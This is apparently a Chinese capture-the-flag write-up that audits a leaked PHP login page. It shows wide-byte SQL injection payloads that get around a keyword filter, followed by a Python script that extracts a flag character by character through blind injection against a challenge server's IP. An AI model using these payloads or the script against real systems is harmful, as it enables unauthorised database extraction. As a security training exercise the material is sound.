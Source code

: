     <span class="hljs-keyword">if</span> (<span class="hljs-variable">$row</span> &amp;&amp; login(<span class="hljs-variable">$encrypted_pass</span>, <span class="hljs-variable">$password</span>)) {
        <span class="hljs-keyword">echo</span> <span class="hljs-string">"you are in!"</span> . <span class="hljs-string">"&lt;/br&gt;"</span>;
        get_identity();
        show_homepage();
    } <span class="hljs-keyword">else</span> {
        <span class="hljs-keyword">echo</span> <span class="hljs-string">"&lt;script&gt;alert('login failed!');&lt;/script&gt;"</span>;
        need_login(<span class="hljs-string">"Login Failed!"</span>);
    }

} <span class="hljs-keyword">else</span> {
    test_identity();
    <span class="hljs-keyword">if</span> (<span class="hljs-keyword">isset</span>(<span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">"id"</span>])) {
        show_homepage();
    } <span class="hljs-keyword">else</span> {
        need_login();
    }
}</span></code></pre>
<p>源码到手 接下来就是代码审计 查找漏洞</p>
<h1 id="come-on">Come On</h1>
<p>这是道注入题，所以第一步找注入点 <br>
<code>1%df' || if(1=1,1,0)%23</code> 注意他过滤了<code>&lt;&gt; or  and</code> <br>
数据表，字段是猜出来的 <br>
<code>1%df' || exists(select(flag)from(flag))%23</code> <br>
等关键字，下面就基于内容长度的盲注</br></br></br></br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver">import requests
<span class="hljs-keyword">string</span> = <span class="hljs-string">''</span>
<span class="hljs-keyword">for</span> i <span class="hljs-operator">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">33</span>):
    <span class="hljs-keyword">for</span> <span class="hljs-keyword">mid</span> <span class="hljs-operator">in</span> range(<span class="hljs-number">32</span>,<span class="hljs-number">127</span>):
        url = <span class="hljs-string">"http://218.2.197.235:23733/index.php?key=1%df' ||  if((select(right(left((select(flag)from(flag)),{}),1)))=binary({}),1,0)%23"</span>.<span class="hljs-built_in">format</span>(str(i),str(bin(<span class="hljs-keyword">mid</span>)))
        s=requests.<span class="hljs-built_in">get</span>(url=url)
        content=s.content
        <span class="hljs-built_in">length</span>=<span class="hljs-built_in">len</span>(content)
        <span class="hljs-comment">#print length</span>
        <span class="hljs-keyword">if</span> <span class="hljs-built_in">length</span> &gt; <span class="hljs-number">1000</span> :
            <span class="hljs-keyword">string</span>+=chr(<span class="hljs-keyword">mid</span>)
            break
    print <span class="hljs-keyword">string</span></code></pre>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170319093637320?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p></div>